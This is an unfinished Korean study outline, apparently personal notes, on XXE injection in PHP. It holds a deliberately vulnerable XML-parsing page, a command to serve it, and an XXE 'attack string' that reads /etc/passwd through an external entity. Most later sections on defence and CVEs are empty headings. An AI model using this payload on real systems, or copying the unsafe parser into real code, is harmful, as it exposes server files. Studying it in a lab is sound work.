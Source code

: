 * 개념

* 샘플 해킹
** 간단한 POC
*** 구동환경
php 5.5.38
php-xml ?

Apache


*** PHP code
#+BEGIN_SRC php
<html>
	<body>
<?php
$xml = $_POST['xml'];
if ($xml){
	echo "input length: ".strlen($_POST['xml']);
	echo '<br>';
	$doc = simplexml_load_string($xml);
	}
?>
	<h1> XML Parser</h1>
	<form action="index.php" method='post'>
		<textarea name="xml" rows="12" cols="100">
		</textarea>
		<br>
		<input type="submit" size="55">
		<br>
		<?php echo $doc->testing; ?>
	 </form>
	</body>
</html>

#+END_SRC

*** 구동
형식 : php -S 0.0.0.0:8080 -t [directory] [directory]/index.php
#+BEGIN_SRC shell
$ php -S 0.0.0.0:8080 -t /var/www/xxe_poc /var/www/xxe_poc/index.php
#+END_SRC

*** 테스트 문자열
#+BEGIN_SRC xml
<!DOCTYPE root
[<!ENTITY foo "xml external entity">]>
<test><testing>&foo;</testing></test>
#+END_SRC
*** 공격 문자열
#+BEGIN_SRC xml
<!DOCTYPE root
[
<!ENTITY foo SYSTEM "file:///etc/passwd">
]>
<test><testing>&foo;</testing></test>
#+END_SRC




** 일반적인 방어방법 in PHP

* 실전 해킹
** 관련 CVE
** 해당 Zend 프레임웍
** 방어코드 in PHP
이렇게 방어가 되어있다는 것을 보여준다.
** 정말 안뚫릴까? 해킹 시연
** 왜 뚫렸는가?
** 제대로 막으려면?

* 참고 
http://hyunmini.tistory.com/66
https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection



